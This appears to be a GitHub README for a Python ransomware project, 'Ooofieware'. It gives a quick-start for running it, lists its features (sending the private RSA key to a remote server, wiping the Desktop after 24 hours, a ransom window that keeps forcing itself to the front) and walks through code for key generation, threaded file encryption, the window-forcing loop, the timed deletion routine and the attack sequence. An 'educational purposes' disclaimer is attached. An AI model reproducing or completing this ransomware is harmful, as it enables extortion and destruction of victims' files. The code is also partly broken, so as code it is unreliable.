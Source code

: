 # Ooofieware - A ransomware in Python

## :pushpin: Quick Start

First, make sure the `.show_sym_key` method in `oofieware.py` is commented out. This method is meant only for debugging purposes, as it writes the symmetric AES key used to encrypt the files to the Desktop.

Run oofieware.py.

## :biohazard: Introduction 

This is a ransomware purely written in Python. It contains all the features a real ransomware might need, such as sending the private RSA key to a remote server, automatically erasing the system after 24 hours if a ransom is not paid, and of course a window with a skull that refuses to go away.

I wrote this as I've been hearing of ransomware for sometime, but never tried to write it myself. So I finally overcame my procrastination and wrote this.

Note that this ransomware is meant for EDUCATIONAl purposes only. In the process of writing this, I educated myself on how ransomware code works, and had to think from the perspective of a malicious actor to make it as realistic as possible. I do not support or condone any criminal activity, and I am not responsible for the actions of anyone who might use this.

Before we delve into the code, special thanks to [@w3w3w3](https://github.com/ncorbuk) for inspiring me to write this. I took reference from his ransomware, though of course I added some of my own features and ways of doing things. The things we can learn from the code of others never ceases to amaze me.

## :computer: Diving into the code

The ransomware is written using OOP, and all the methods are defined in a central class. Let's take a look at some of the methods. I will not be going through everything, only the parts I feel needs more explaining.

Firsly, in `__init__`, there is an arg called gen_rsa that defaults to True. If set to False, the attacker can ship the ransomware with a preset public key, which is used to encrypt the AES-256 symmetric key which was used to encrypt the vistim's files. If left as the default, the victim's machine is used to generate the RSA keys, the private one of which will be sent via a POST request to the attacker's server.

### gen_sym_key()

```py
secure_pw = os.urandom(32)
salt = os.urandom(16)

kdf = PBKDF2HMAC(
    algorithm=hashes.SHA256(),
    length=32,
    salt=salt,
    iterations=500000,
)

self.key = base64.urlsafe_b64encode(kdf.derive(secure_pw))
```

For `gen_sym_key()`, I used this method to generate the AES-256 key instead of directly using Fernet.generate_key() as this gives a more secure key.

### crypt_system()

```py
if not (os.stat(file_path).st_size > self.LARGE_SIZE):
    self.crypt_file(file_path)
else:
    t = threading.Thread(target=self.crypt_file, args=(file_path,))
    self.threads.append(t)
    t.start()
```

This snippet checks the size of the file. If the file is larger than `self.LARGE_SIZE` (which is defined as 50 mil bytes, or 50mb), the encryption for that file is started in a separate thread to improve efficiency.

### wait_till_finish()

As can be seen in the example above, each thread is appended to the array `self.threads`.

```py
def wait_till_finish(self):
    for thr in self.threads:
        thr.join()

    self.threads = []
```

The method I originally set to directly run after crypt_system was `enc_key()`, which encrypts the symmetric key with the public key. And it sets the `self.encrypter` object, which is used to encrypt files, to none. This causes a potential exception as when the `self.encrypter` object is set to None, one/multiple of the threads used to encrypt files > 50MB may still be running, so setting the `self.encrypter` object to None stops the encryption of these large files and causes an exception. Hence, I added this `wait_till_finish` method, which takes the threads previously appended to `self.thread`s and applies the `.join()` method to them, effectively blocking the main loop from proceeding to `enc_key` until all the large files have been encrypted as well. This prevents the exception and ensures that the encryption is completed. 

self.threads is then set to None to facilitate later decryption of the system.

### elevate_ransom_window()

```py
while True:
    topWindow = pg.getActiveWindow()
    if topWindow.title != "Ransom Note":
        try:
            win = pg.getWindowsWithTitle('Ransom Note')[0]
            win.minimize()
            win.restore()
        except:
            continue
    sleep(10) # take away completely to annoy the fuck out of victim
```

This constantly makes the ransom window the top window with fullscreen enabled. However, for debugging purposes, a sleep(10) is introduced. If this sleep(10) is removed, the victim's computer would be essentially inoperable due to this window repeatedly forcing itself to the front. At least until perhaps the victim shuts down the computer. Still, that does not change the fact that their files would already be encrypted, as the ransom window only shows itself WHEN all files have been encrypted.

Note that `elevate_ransom_window` is started in a separate thread and is started before `show_ransom_window()`, so that it does not interfere with the blocking call `window.mainloop` that is used in `show_ransom_window()`. The same is true for the method `detect_dec_key`.

### detect_dec_key()

This method is also called in a separate thread before `show_ransom_window()`. It scans the victim's Desktop every 5 seconds to check if a decryption key has been given, and if one is given, the decryption of the files will begin.

### show_ransom_window() and erase_system()

`show_ransom_window` shows the ransom window, which is made using the python module [Tkinter](https://docs.python.org/3/library/tkinter.html). However, there is one part I would like to explain.

```py
eraseTimer = threading.Timer(60*60*24, self.erase_system)
eraseTimer.start()
```

```py
def erase_system(self):
    for root, dirs, files in os.walk(self.Desktop, topdown = True):
        try:
            shutil.rmtree(os.path.join(root, dirs))
        except OSError as e:
            pass
```

This starts a timer in a separate thread, a timer that erases the victim's entire Desktop and all the folders and files inside it after 24 hours, if the ransom is not paid. The erase_system() is what will be called after 24 hours.

### The Order

```py
def attack():
    oof = oofieWare(gen_rsa = True)
    oof.gen_sym_key()
    oof.gen_rsa_keypair()
    oof.crypt_system()
    oof.show_sym_key() # for debugging purposes, DON'T use this line irl
    oof.wait_till_finish()
    oof.encrypt_key()
    elevate = threading.Thread(target = oof.elevate_ransom_window)
    elevate.start()
    detect = threading.Thread(target = oof.detect_dec_key)
    detect.start()
    oof.show_ransom_window()
    
attack()
```

Methods should be called in the pre-defined order to prevent any unexpected occurences. Note that `show_sym_key()` is only for debugging and should not be used in an actual attack.

## :keyboard: Fin

I hope you find this useful. Take care and remember not to run this by accident on your host OS!